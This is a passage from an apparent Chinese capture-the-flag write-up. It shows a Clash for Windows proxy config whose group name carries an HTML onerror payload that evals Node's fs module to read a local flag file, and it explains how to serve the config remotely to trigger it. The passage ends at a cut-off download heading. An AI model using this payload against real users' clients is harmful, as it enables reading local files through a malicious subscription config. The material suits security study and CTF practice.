 ```yml
      cipher: auto
      udp: false

proxy-groups:
    - name: | # 重点
          <img src="xxx" onerror="alert(eval(`require('fs').readFileSync('/app/profiles/flag.yml', { encoding: 'utf-8' })`))"/>
      type: select
      proxies:
          - xxx
```

任意用一个外网可以访问的静态文件服务器丢上去，并把 URL 喂给 cfw，然后去 Proxies 界面即可弹出窗口

![然后人肉 OCR 即可](./prob02-flag1.webp)

## 汉化绿色版免费下载

### 普通下载

